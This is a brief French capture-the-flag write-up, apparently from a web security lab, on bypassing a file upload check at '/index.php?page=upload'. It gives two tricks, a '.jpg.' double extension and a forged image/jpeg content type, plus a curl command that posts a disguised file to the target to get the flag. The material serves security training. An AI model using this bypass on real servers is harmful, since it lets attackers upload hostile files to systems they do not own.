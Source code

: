 /index.php?page=upload

uploader un fichier dont le type est jpeg le nom contient *.jpg.*

OU

faker le type du fichier pour etre considere comme etant de type image
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@jesuismechant;type=image/jpeg' "http://<IP>/?page=upload#"

Get the flag

